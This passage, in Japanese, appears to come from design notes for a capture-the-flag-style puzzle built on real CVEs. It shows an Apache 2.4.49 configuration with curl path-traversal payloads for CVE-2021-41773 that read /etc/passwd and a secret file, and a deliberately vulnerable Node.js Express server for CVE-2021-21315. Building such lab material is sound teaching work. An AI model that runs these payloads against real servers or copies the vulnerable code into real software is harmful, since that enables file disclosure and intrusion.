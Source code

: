### 7. CVE-2021-41773 - Apache HTTP Server
**概要**: URLエンコーディングの二重処理によるパストラバーサル

```apache
# Apache 2.4.49の設定
<Directory />
    Require all denied
</Directory>

<Directory "/var/www/html">
    Require all granted
</Directory>

# CGI有効化（脆弱性発動に必要）
LoadModule cgid_module modules/mod_cgid.so
```

**攻撃パターン**:
```bash
# 通常のアクセス（ブロックされる）
curl http://puzzle.aegis.com/cgi-bin/../etc/passwd

# 脆弱性を利用（%2eをさらにエンコード）
curl http://puzzle.aegis.com/cgi-bin/.%2e/.%2e/.%2e/.%2e/etc/passwd

# 謎解き用
curl http://puzzle.aegis.com/cgi-bin/.%2e/.%2e/.%2e/.%2e/opt/secrets/protocol_seven.txt
```

### 8. CVE-2021-21315 - Node.js systeminformation
**概要**: services()関数での情報漏洩（コマンドインジェクションを情報取得に限定）

```javascript
// vulnerable-server.js
const express = require('express');
const si = require('systeminformation'); // version 4.34.22

const app = express();

// 秘密情報を環境変数に設定
process.env.PROTOCOL_SEVEN_HINT = 'Check_commit_a7b3c9d';

app.get('/services/:name', async (req, res) => {
    try {
        // 脆弱なバージョンでは特殊な入力で環境変数が露出
        const data = await si.services(req.params.name);
        res.json(data);
    } catch (error) {
        // エラーメッセージに情報が含まれる可能性
        res.json({ error: error.message });
    }
});

app.listen(3000);
```
